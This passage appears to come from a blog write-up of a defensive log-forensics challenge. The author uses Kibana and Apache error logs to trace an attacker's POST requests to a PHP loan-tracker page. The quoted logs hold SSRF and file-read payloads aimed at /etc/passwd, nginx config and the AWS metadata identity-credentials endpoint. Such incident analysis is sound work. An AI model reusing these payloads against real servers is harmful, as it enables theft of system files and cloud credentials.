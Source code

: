 Next I will create a new `Aggregation based visualization` as a `Data table` to get more insights about what did the attacker get from the server. I will include the suspect IP and exclude the `status_code:404`and `403`. In `Metrics` I will choose `count` as I want only the number of occurrence, and in `Buckets` I will create 3 `Split rows` one for `status_code`, one for `method` and the other for `uri`. 
![](/assets/images/posts/2025-02-17-Heartbreaker-Denouement/03.png)
We can see a single redirection with `status_code 301` and there is 20 successful `post` requests. Since the `post` requests were successful we need to know more about what happened. The `access.log` won't provide us with anything new so I will go to `error.log` and look around the time those `post` requests were made. Here what we got:

```
[Wed Mar 13 14:03:17.482267 2024] [php7:notice] [pid 399] [client 35.169.66.138:35892] Request: POST /wb-loanapp-tracker.php Input: , referer: http://3.144.237.152/wb-loanapp-tracker.php
[Wed Mar 13 14:03:21.501887 2024] [php7:notice] [pid 399] [client 35.169.66.138:35892] Request: POST /wb-loanapp-tracker.php Input: , referer: http://3.144.237.152/wb-loanapp-tracker.php
[Wed Mar 13 14:05:05.451538 2024] [php7:notice] [pid 408] [client 35.169.66.138:42982] Request: POST /wb-loanapp-tracker.php Input: askdjmzxcnqw3e, referer: http://3.144.237.152/wb-loanapp-tracker.php
[Wed Mar 13 14:05:17.635598 2024] [php7:notice] [pid 410] [client 35.169.66.138:48240] Request: POST /wb-loanapp-tracker.php Input: file:///etc/passwd, referer: http://3.144.237.152/wb-loanapp-tracker.php
[Wed Mar 13 14:05:48.612192 2024] [php7:notice] [pid 23239] [client 35.169.66.138:50362] Request: POST /wb-loanapp-tracker.php Input: file:///etc/nginx/nginx.conf, referer: http://3.144.237.152/wb-loanapp-tracker.php
[Wed Mar 13 14:05:48.614921 2024] [php7:warn] [pid 23239] [client 35.169.66.138:50362] PHP Warning:  file_get_contents(file:///etc/nginx/nginx.conf): failed to open stream: No such file or directory in /var/www/html/wb-loanapp-tracker.php on line 107, referer: http://3.144.237.152/wb-loanapp-tracker.php
```
From the previous lines we see a keyword `Input` which carry something related to what was sent with the request like `askdjmzxcnqw3e`, `file:///etc/passwd` and `file:///etc/nginx/nginx.conf` but only the last one returned `failed to open stream: No such file or directory` which indicated the previous requested returned what was requested. 

The following lines in `error.log` carry:
```
[Wed Mar 13 14:06:21.695943 2024] [php7:notice] [pid 412] [client 35.169.66.138:52712] Request: POST /wb-loanapp-tracker.php Input: http://169.254.169.254, referer: http://3.144.237.152/wb-loanapp-tracker.php
[Wed Mar 13 14:06:30.584637 2024] [php7:notice] [pid 415] [client 35.169.66.138:35750] Request: POST /wb-loanapp-tracker.php Input: http://169.254.169.254/latest, referer: http://3.144.237.152/wb-loanapp-tracker.php
[Wed Mar 13 14:06:40.887829 2024] [php7:notice] [pid 404] [client 35.169.66.138:41200] Request: POST /wb-loanapp-tracker.php Input: http://169.254.169.254/latest/meta-data, referer: http://3.144.237.152/wb-loanapp-tracker.php
[Wed Mar 13 14:07:12.865444 2024] [php7:notice] [pid 401] [client 35.169.66.138:36720] Request: POST /wb-loanapp-tracker.php Input: http://169.254.169.254/latest/meta-data/identity-credentials, referer: http://3.144.237.152/wb-loanapp-tracker.php
```